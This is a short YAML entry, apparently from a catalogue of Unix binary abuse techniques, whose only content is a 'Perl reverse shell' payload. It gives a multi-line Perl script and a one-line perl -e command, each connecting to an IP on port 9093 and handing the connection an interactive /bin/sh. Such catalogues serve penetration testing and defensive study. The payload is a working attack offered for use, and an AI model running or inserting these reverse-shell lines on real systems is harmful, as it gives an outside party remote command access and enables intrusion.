 ```yaml
---
functions:
  shell:
    - description: Perl reverse shell
      code: |
        use Socket;$i="10.10.10.10";$p=9093;
        socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
        if(connect(S,sockaddr_in($p,inet_aton($i)))){
        	open(STDIN,">&S");
        	open(STDOUT,">&S");
        	open(STDERR,">&S");
        	exec("/bin/sh -i");};

        perl -e 'use Socket;$i="10.10.14.11";$p=9093;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
---
```

